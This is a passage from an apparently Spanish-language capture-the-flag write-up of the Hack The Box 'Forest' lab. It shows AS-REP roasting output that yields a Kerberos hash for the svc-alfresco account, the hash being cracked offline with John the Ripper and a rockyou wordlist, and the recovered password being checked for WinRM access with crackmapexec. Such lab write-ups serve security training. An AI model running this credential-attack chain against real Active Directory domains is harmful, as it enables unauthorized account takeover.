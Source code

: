 ```bash
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4e5353a2c9d31f672b1a21cc000d099d$f9ce293ab972c31a28b8a1bacad71be32b8369654c83664b78fafd116e7ab270f286291f6524cfb9683bf988eae7de7d5ef3bc45f9a026fcc174c57c9dff632ab14bd6b5737f11b298139d5d78ea817633c866b4c2297c54ca46a9062ec6ab3bf252864caac62fa8b4119cc91fa01a109b545086705ee05f3a643763ab6f682e2b683e2cb926a8f56f7fe61c4b1d85f8de4894e6040bd5b08618880cdc664a68851bca42e484c896824b541846c3a7eafa143fd8ee446951a4fce38e5165758292bee55ffe531a588efc4f80a535fdcef08309051970b43f35ab4085e0408299d12d130d7b99
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ammar doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Hemos obtenido el hash del usuario `svc-alfresco`. Ahora, procederemos a copiarlo en un archivo y luego intentaremos descifrarlo utilizando la herramienta **JohnTheRipper**.

```bash
❯ echo '$krb5asrep$23$svc-alfresco@HTB.LOCAL:4e5353a2c9d31f672b1a21cc000d099d$f9ce293ab972c31a28b8a1bacad71be32b8369654c83664b78fafd116e7ab270f286291f6524cfb9683bf988eae7de7d5ef3bc45f9a026fcc174c57c9dff632ab14bd6b5737f11b298139d5d78ea817633c866b4c2297c54ca46a9062ec6ab3bf252864caac62fa8b4119cc91fa01a109b545086705ee05f3a643763ab6f682e2b683e2cb926a8f56f7fe61c4b1d85f8de4894e6040bd5b08618880cdc664a68851bca42e484c896824b541846c3a7eafa143fd8ee446951a4fce38e5165758292bee55ffe531a588efc4f80a535fdcef08309051970b43f35ab4085e0408299d12d130d7b99' > hash.txt
```

```bash
❯ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:03 DONE (2023-07-30 16:45) 0.2932g/s 1198Kp/s 1198Kc/s 1198KC/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La contraseña de esta cuenta es `s3rvice`. Dado que el puerto `5985` también está abierto, podemos verificar si este usuario tiene permitido el acceso remoto a través de WinRM utilizando **Evil-WinRM**.

```bash
❯ crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

